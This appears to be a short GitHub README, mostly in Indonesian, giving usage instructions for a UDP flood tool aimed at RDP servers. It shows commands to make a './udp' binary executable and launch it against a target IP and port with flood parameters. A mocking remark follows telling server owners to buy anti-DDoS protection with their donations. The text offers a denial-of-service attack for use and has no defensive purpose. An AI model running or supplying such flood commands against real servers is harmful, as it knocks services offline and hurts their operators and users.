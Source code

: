 # gakadacumaisengdoang

cara attack udp RDP

chmod +x ./udp  

./udp ip port 100 1000 1

makanya Tod punya server itu duit donate nya buat beli anti ddos / buat server itu pake modal jangan mau nya free doang sama duit donet nya doang

